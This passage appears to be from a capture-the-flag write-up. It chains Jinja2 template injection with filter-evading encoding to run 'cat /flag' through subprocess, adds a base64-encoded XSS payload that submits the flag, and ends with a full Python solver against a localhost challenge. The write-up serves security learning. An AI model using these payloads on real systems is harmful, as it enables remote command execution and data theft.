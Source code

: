 In jinja2, variables must be declared using `{% set name = value %}` syntax.

To bypass the `__` (double underscore) filtering, he use `{% set u='_' %}{% set d=u*2 %}`.

Afterwards, they import `http.client` via **`cycler.init.globals.__builtins__.import`**, read the flag using `open('/flag')`, send the flag to `/accept` via POST request to store it on the server, and then read the flag.

---

### 2. Sending Request to `/accept` using XSS

Now we need to execute XSS while bypassing the BLACKLIST.

For simplicity, I chose to write XSS code, base64 encode it, and eval it.

1. **Original Code**

```jsx
window.onload = () => {
  document.querySelector("input").value =
    document.querySelector("pre#flag").textContent;
  document.querySelector("button").click();
};
```

This reads the flag from `pre#flag`, puts it in input.value, and sends a POST request to `/accept` through the form.

1. **BASE64 + URL Encoding**

```
d2luZG93Lm9ubG9hZD0oKT0+e2RvY3VtZW50LnF1ZXJ5U2VsZWN0b3IoJ2lucHV0JykudmFsdWUgPSBkb2N1bWVudC5xdWVyeVNlbGVjdG9yKCdwcmUjZmxhZycpLnRleHRDb250ZW50O2RvY3VtZW50LnF1ZXJ5U2VsZWN0b3IoJ2J1dHRvbicpLmNsaWNrKCk7fTs=

```

After BASE64 encoding, I applied URL encoding to prevent characters like `+` from being treated as special characters when included in GET parameters.

## Solver

```python
import requests as req
from base64 import b64encode
from urllib.parse import quote
import re

url = 'http://localhost:5000'

ssti_payload = '''
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(485)('cat /flag',shell=True,stdout=-1)|attr('communicate')()|attr('__getitem__')(0)|attr('decode')('utf-8')}}
'''.strip().replace('_','\\x5f').replace('c', '\\x63')

xss_payload = b'''window.onload=()=>{document.querySelector('input').value = document.querySelector('pre#flag').textContent;document.querySelector('button').click();};'''
xss_payload = quote(b64encode(xss_payload))
xss_payload = f'<script>eval(atob(decodeURIComponent("{xss_payload}")))</script>'

payload = '</pre><pre id="flag">' + ssti_payload + '</pre>' + xss_payload + '<pre>'

res = req.post(f'{url}/write', data={
    'title': 'dummy',
    'content': quote(payload)
})

res = req.get(url)
```